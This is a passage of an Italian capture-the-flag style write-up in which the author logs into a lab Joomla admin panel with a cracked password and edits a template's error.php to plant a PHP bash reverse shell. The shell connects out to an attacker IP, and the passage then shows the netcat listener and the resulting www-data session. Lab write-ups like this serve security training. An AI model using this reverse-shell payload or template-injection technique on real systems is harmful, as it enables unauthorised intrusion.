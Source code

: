 ```
abcd1234         (?)     
1g 0:00:00:05 DONE 2/3 (2025-06-08 01:28) 0.1838g/s 138.9p/s 138.9c/s 138.9C/s Snoopy..baby
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
ora accediamo a Joombla con le credenziali
```
http://10.10.100.76:8080/administrator/
```
user
```
admin
```
password
```
abcd1234
```

**A questo punto, dovresti caricare una reverse-shell per ottenere l'accesso alla shell. Chi è il proprietario di questa sessione?**
suggerimento:
Forse potresti usare la pagina error.php su un template? Certo, provala ed esegui il comando "id".
quindi andiamo in Editing file "/error.php" in template "beez3"
```
http://10.10.100.76:8080/administrator/index.php?option=com_templates&view=template&id=503&file=L2Vycm9yLnBocA%3D%3D
```
ed editiamo la nostra reverse shell andando a sostituire 
```
<?php echo('Uh Oh 404') ?>
```
con
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.14.99.134/1234 0>&1'");
```
e salviamo.
Sulla nostra macchina attaccante mettiamo in ascolto netcat sulla porta selezionata
```
nc -lvnp 1234
```
 ora ritorniamo su Joombla su Templates: Styles selezioniamo Beez3 come preferito di default su tutte le pagine
  andiamo su 
```
http://10.10.100.76:8080/templates/beez3/error.php
```
ed ==otteniamo la reverse shell!==
```
└─# nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.14.99.134] from (UNKNOWN) [10.10.100.76] 40880
bash: cannot set terminal process group (844): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/opt/joomla/templates/beez3$ 

```
facciamo id
```
id
```
```
www-data@ubuntu:/opt/joomla/templates/beez3$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data),115(lxd)
www-data@ubuntu:/opt/joomla/templates/beez3$ 
```
ed otteniamo la risposta